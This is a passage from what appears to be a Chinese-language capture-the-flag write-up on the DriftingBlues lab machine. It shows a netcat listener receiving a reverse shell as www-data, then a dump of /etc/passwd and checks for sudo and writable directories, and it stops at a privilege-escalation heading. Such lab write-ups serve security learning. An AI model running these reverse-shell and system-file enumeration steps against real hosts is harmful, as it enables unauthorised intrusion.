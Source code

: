 ```
┌──(chw㉿CHW)-[~/Desktop/Tool_upload]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.221] from (UNKNOWN) [192.168.171.219] 52461
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 04:36:04 up  3:39,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: no job control in this shell
www-data@driftingblues:/home$ ls /home
ls /home
www-data@driftingblues:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false 
```
>[!Tip]
沒有 User Flag ?! 應該不是權限太小 (都可以讀 `/etc/passwd`了)

確認權限
```
www-data@driftingblues:/home$ sudo -l
sudo -l
bash: sudo: command not found
www-data@driftingblues:/home$ ls -lah /etc/passwd
ls -lah /etc/passwd
-rw-r--r-- 1 root root 868 Mar 17  2021 /etc/passwd
www-data@driftingblues:/home$ find / -writable -type d 2>/dev/null
find / -writable -type d 2>/dev/null
/run/shm
/run/lock
/run/lock/apache2
/var/www/textpattern/files
/var/lib/php5
/var/cache/apache2/mod_disk_cache
/var/tmp
/proc/3686/task/3686/fd
/proc/3686/fd
/tmp
```
## Privileges Escalation
